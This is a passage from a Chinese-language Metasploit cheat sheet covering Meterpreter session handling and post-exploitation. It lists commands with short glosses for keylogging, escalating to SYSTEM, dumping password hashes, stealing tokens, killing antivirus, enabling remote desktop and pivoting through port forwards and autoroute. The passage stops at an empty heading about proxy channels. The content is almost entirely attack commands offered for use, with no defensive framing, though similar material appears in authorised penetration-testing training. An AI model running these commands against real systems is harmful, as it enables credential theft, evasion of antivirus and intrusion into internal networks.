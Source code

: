 ```undefined
msf exploit(handler) > sessions -i 2   选择会话
msf exploit(handler) > sessions -k 2   结束会话
```

```undefined
Ctrl+z  把会话放到后台
Ctrl+c  结束会话
```

### 将cmdshell升级成meterpreter

` sessions -u cmdshell的id `



### 加载powershell

```
meterpreter > load powershell 
Loading extension powershell...Success.
meterpreter > powershell_shell 
PS > whoami
go0s-pc\go0s
```





## Meterpreter后攻击

### 常用命令

```bash
meterpreter > background  放回后台
meterpreter > exit  关闭会话
meterpreter > help  帮助信息
meterpreter > Sysinfo系统平台信息
meterpreter > screenshot  屏幕截取
meterpreter > shell  命令行shell (exit退出)
meterpreter > getlwd  查看本地目录
meterpreter > lcd  切换本地目录
meterpreter > getwd  查看目录
meterpreter > ls 查看文件目录列表
meterpreter > cd  切换目录 
meterpreter > rm  删除文件 
meterpreter > download C:\\Users\\123\\Desktop\\1.txt 1.txt 下载文件
meterpreter > upload /var/www/wce.exe wce.exe  上传文件
meterpreter > search -d c:  -f *.doc  搜索文件
meterpreter > execute -f  cmd.exe -i   执行程序/命令 
meterpreter > ps  查看进程
meterpreter > run post/windows/capture/keylog_recorder   键盘记录
meterpreter > getuid  查看当前用户权限
meterpreter > use priv  加载特权模块
meterpreter > getsystem  提升到SYSTEM权限
meterpreter > hashdump  导出密码散列
meterpreter > ps   查看高权限用户PID
meterpreter > steal_token <PID>  窃取令牌
meterpreter > rev2self  恢复原来的令牌 
meterpreter > migrate pid  迁移进程
meterpreter > run killav  关闭杀毒软件 
meterpreter > run getgui-e  启用远程桌面
meterpreter > portfwd add -l 1234 -p 3389 -r <目标IP>  端口转发
meterpreter > run get_local_subnets  获取内网网段信息
meterpreter > run autoroute -s <内网网段>  创建自动路由
meterpreter > run autoroute -p  查看自动路由表
创建代理通道:
```